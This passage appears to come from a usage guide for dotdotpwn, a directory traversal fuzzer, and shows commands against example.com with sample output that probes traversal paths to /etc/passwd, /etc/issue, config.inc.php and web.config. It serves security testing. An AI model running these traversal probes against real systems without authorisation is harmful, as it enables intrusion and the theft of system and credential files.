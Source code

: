 ### Specified Port

```sh
dotdotpwn -m http -x 8080 -h example.com
```

### Traversal Depth

Use option `-d` to set the depth to traverse.

```sh
dotdotpwn -m http -d 8 -h example.com
```

```
[*] HTTP Status: 403 | Testing Path: http://example.com:80/../etc/passwd
[*] HTTP Status: 403 | Testing Path: http://example.com:80/../etc/issue
[*] HTTP Status: 404 | Testing Path: http://example.com:80/../../etc/passwd
...
[*] HTTP Status: 404 | Testing Path: http://example.com:80/../../../../../../../../etc/passwd
[*] HTTP Status: 404 | Testing Path: http://example.com:80/../../../../../../../../etc/issue
...
```

### Connect With SSL

```sh
dotdotpwn -m http -h example.com -S
```

```
[*] HTTP Status: 403 | Testing Path: https://example.com:443/../etc/passwd
[*] HTTP Status: 403 | Testing Path: https://example.com:443/../etc/issue
[*] HTTP Status: 404 | Testing Path: https://example.com:443/../../etc/passwd
[*] HTTP Status: 404 | Testing Path: https://example.com:443/../../etc/issue
[*] HTTP Status: 404 | Testing Path: https://example.com:443/../../../etc/passwd
...
```

### Delay Between Each Request

Use option `-t` to sleep n milliseconds between each request send.

```sh
dotdotpwn -m http -h example.com -t 100
```

### Extra Test Cases

Use option `-E` to use extra test cases.

```sh
dotdotpwn -m http -h example.com -E
```

```
[*] HTTP Status: 403 | Testing Path: http://example.com:80/../etc/passwd
[*] HTTP Status: 403 | Testing Path: http://example.com:80/../etc/issue
[*] HTTP Status: 404 | Testing Path: http://example.com:80/../config.inc.php
[*] HTTP Status: 404 | Testing Path: http://example.com:80/../web.config
[*] HTTP Status: 404 | Testing Path: http://example.com:80/../../etc/passwd
```
